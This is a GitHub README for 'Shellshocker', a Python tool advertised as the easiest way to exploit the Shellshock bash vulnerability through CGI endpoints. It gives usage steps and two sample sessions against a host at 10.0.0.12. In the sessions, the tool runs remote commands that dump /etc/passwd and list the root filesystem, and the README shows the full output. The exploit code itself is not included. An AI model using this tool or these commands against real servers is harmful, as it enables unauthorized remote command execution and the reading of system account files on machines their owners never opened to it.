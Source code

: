 # Shellshocker
Shellshock easily exploitation

When you find Shellshock / Bashbug vulnerability and want the easiest way to exploit it, you can use Shellshocker.
Shellshocker suggests to avoid user-agent spoofing on-hand. In contrast to that it has a nice shell-interface.

### Usage
  1. Run the script with python: "python shellshocker.py http://exam.com/cgi-bin/cat"


  2. Hit command and press enter: "cat /etc/passwd"


  3. Read the output :)


### Examples
```sh
/.../shellshoker$ python shellshoker.py http://10.0.0.12:591/cgi-bin/cat
Shellshock Command: cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
saslauth:x:499:76:"Saslauthd user":/var/empty/saslauth:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
bynarr:x:500:501::/home/bynarr:/bin/bash
apache:x:48:48:Apache:/var/www:/sbin/nologin
apophis:x:501:502::/home/apophis:/bin/bash
```

```sh
/.../shellshoker$ python shellshoker.py http://10.0.0.12:591/cgi-bin/cat
Shellshock Command: ls -lath /

total 101K
drwxrwxrwt.   3 root    root    4.0K Feb  9 22:20 tmp
drwxr-xr-x   17 root    root    3.5K Feb  9 21:14 dev
dr-xr-xr-x.  22 root    root    4.0K Feb  9 21:14 .
dr-xr-xr-x.  22 root    root    4.0K Feb  9 21:14 ..
-rw-r--r--    1 root    root       0 Feb  9 21:14 .autofsck
drwxr-xr-x.  61 root    root    4.0K Feb  9 21:14 etc
drwxr-xr-x   13 root    root       0 Feb  9 21:14 sys
dr-xr-xr-x  110 root    root       0 Feb  9 21:14 proc
dr-xr-x---.   2 root    root    4.0K Jan 15  2015 root
dr-xr-xr-x.   2 root    root    4.0K Dec 30  2014 bin
drwxr-xr-x.  19 root    root    4.0K Dec 30  2014 var
dr-xr-xr-x.   9 root    root     12K Dec 30  2014 lib64
dr-xr-xr-x.   2 root    root     12K Dec 30  2014 sbin
drwxr-xr-x.   4 root    root    4.0K Dec 30  2014 home
-rw-r--r--    1 root    root       0 Nov 12  2014 .autorelabel
dr-xr-xr-x.   8 root    root    4.0K Nov 12  2014 lib
dr-xr-xr-x.   4 root    root    4.0K Nov 12  2014 boot
drwxr-xr-x.  13 root    root    4.0K Nov 12  2014 usr
drwxr-xr-x.   2 root    root    4.0K Nov 12  2014 selinux
drwx------.   2 root    root     16K Nov 12  2014 lost+found
drwxr-xr-x.   2 root    root    4.0K Sep 23  2011 media
drwxr-xr-x.   2 root    root    4.0K Sep 23  2011 opt
drwxr-xr-x.   2 root    root    4.0K Sep 23  2011 srv
drwxr-xr-x    2 apophis apophis  512 Jan  1  1970 mnt
```

